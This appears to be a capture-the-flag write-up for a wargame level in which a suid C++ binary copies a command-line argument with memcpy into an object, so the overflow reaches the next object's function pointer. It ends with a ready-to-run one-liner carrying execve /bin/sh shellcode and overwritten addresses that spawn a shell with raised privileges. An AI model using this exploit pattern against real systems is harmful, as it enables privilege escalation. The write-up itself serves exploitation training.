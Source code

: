 # Level9

## Context & Explanation
 * There is one file in our home, ```level9```, belonging to ```bonus0``` user, with suid.
 * Here's the decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* In the `main()`
		* `_Znwj@plt()` is called to allocate `0x6c` of memory
		* `_ZN1NC1Ei()` is called to fill the previously allocated memory, with a function pointer pointer, and a value at the end.
		* We repeat a second time these 2 operations.
		* `_ZN1N13setAnnotationEPc()` is then called on object_1
			* a `memcpy()` is done on `av[1]`
		* Finally, the function pointer pointer of the 2nd object is called.

## Exploited vulnerability

We will use a Buffer-Overflow attack on the `memcpy()` to make use of the 2nd function pointer pointer to execute a shellcode.
Here is a visual representation :
![Layout](Layout_Objects.png)

## Resolution

```
./level9 `python -c "print('10a00408'.decode('hex') + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 79 +  '0ca00408'.decode('hex'))"
```

